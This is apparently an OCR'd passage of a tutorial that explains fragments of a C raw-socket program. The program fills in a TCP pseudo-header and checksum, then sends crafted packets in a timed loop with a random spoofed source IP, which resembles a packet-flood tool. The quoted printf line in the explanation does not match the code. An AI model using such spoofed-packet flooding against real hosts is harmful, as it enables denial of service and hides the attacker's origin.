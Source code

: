 ```c
        pseudo_header.tcp_len = htons(sizeof(struct tcphdr));

        int psize = sizeof(pseudo_header) + sizeof(struct tcphdr);
        char *pseudogram = malloc(psize);
        memcpy(pseudogram, (char *)&pseudo_header, sizeof(pseudo_header));
        memcpy(pseudogram + sizeof(pseudo_header), tcph, sizeof(struct tcphdr));

        tcph->check = checksum((unsigned short *)pseudogram, psize / 2);
        free(pseudogram);
```

* **TCP Checksum calculation:** The TCP checksum (unlike IP) includes not only the TCP header, but also *pseudo-headers*. The pseudo header contains information from the IP header (source and destination addresses, protocol) that is needed to protect against routing attacks.
    * Creating the `pseudo_header` structure:
        * `u_int32_t saddr;` - Source IP address (4 bytes)
        * `u_int32_t daddr;` - Destination IP address (4 bytes)
* `u_int8_t zero;` - Reserved (1 byte)
        * 'u_int8_t protocol;` - Protocol (TCP = 6) (1 byte)
        * `u_int16_t tcp_len;` is the length of the TCP header (2 bytes)
* We fill in the `pseudo_header' with information from the IP header and TCP header.
    * We allocate memory for the pseudo header + TCP header (`pseudogram').
    * Copy the contents of the `pseudo_header` and TCP header to the `pseudogram'.
    * Calculate the checksum for the `pseudogram` using the 'checksum` function.
    * Save the result in `tcph->check'.
    * Freeing up the allocated memory (`free(pseudogram);` ).
```c
        // Sending a package
        if(sendto(s, packet, iph->tot_len, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0) {
            error("sendto error");
        } else {
            printf("[+] Packet sent #%d from %s\n", i, random_ip);
        }
```

*   `if(sendto(s, packet, iph->tot_len, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0)`:
    *   `sendto()`: A function for sending data over a socket.
    *   `s`:  The socket descriptor.
    * `packet': A pointer to the data to be sent (the entire packet that we have collected).
    * 'iph->tot_len': Packet length in bytes (IP header + TCP header).
    * `0`: Flags (usually 0).
    *   `(struct sockaddr *)&sin`: A pointer to the `sin` structure (with information about the destination address).
    * `sizeof(sin)`: The size of the `sin` structure.
    *   `if(...) < 0`: Checking for an error.
        * `error("sendto error")`: Displays an error message.
*   `else { ... }`:
    * `printf("[+] Packet #%d from %s\n has been sent", i, random_ip);`: Displays a message about the successful sending of the packet, specifying the packet number and the random IP address of the source.

```c
        usleep(10000); // 10 ms delay between packets
    }
```
